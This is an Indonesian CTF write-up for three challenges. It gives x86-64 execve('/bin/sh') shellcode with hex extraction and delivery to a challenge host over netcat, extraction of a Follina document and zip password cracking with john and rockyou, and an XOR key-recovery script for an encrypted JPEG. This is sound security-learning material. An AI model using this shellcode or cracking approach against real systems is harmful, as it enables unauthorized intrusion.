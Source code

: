 ## shell (4 solved)

```asm
section .text
    global _start
_start:
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x0068732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

inputkan untuk mengekstrak hex instruksi assembly-nya:
```sh
nasm -gstabs -f elf64 -o bin_sh.o bin_sh.asm && ld bin_sh.o -o bin_sh && ./bin_sh
objdump -M Intel -d ./bin_sh |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Lalu masukkan kedalam payload
```sh
(python2 -c 'print "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\  
x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"';cat) | nc 101.50.0.66 9002
```

## Follina (9 solved)

Untuk folina saya melihat referensi kode dari github john hammond https://github.com/JohnHammond/msdt-follina

```python
...snip...
    # Modify the Word skeleton to include our HTTP server
    document_rels_path = os.path.join(
        staging_dir, doc_suffix, "word", "_rels", "document.xml.rels"
    )
...snip...
```

disini kita dapat menyimpulkan bahwa filenya ada di `/word/_rels/document.xml.rels`

kita disasamble doc-nya menggunakan binwalk
```sh
binwalk follina.doc -e
```

kita masuk ke path filenya dan mendapatkan
```
...snip...Target="https://github.com/banuaa/folliware!"...snip...
```

Kita akan diarahkan ke githubnya mas banua. Kita download file yang ada di sana, lalu bruteforce zipnya menggunakan john

```sh
zip2john flag.zip > brute.hash
john --wordlist=/usr/share/wordlists/rockyou.txt brute.hash
```

## ROXYNAM (6 solved)
```python
FLG_ENC = "flag.jpg.enc"
EX_JPG = "example.jpg"

with open(FLG_ENC, "rb") as f:
    FLG_BIN = f.read()[:3]
    
with open(EX_JPG, "rb") as f:
    EX_BIN = f.read()[:3]

# search the key
key = ""
for i, j in zip(FLG_BIN, EX_BIN):
    for k in range(0xff):
        if i ^ k == j:
            key += ('{:02x}'.format(k))
            break
key = bytes.fromhex(key).decode()

with open(FLG_ENC, "rb") as f:
    FLG_BIN = f.read()

# xor all the binary in the flag.jpg.enc
jpg_flag = bytes([x ^ ord(key[i % len(key)]) for i, x in enumerate(FLG_BIN)])
with open("flag.jpg", "wb") as f:
    f.write(jpg_flag)
```

disini saya hanya membandingkan header flag jpg dengan jpg lain. Kemudian men-xornya dengan flag yang ditemukan. 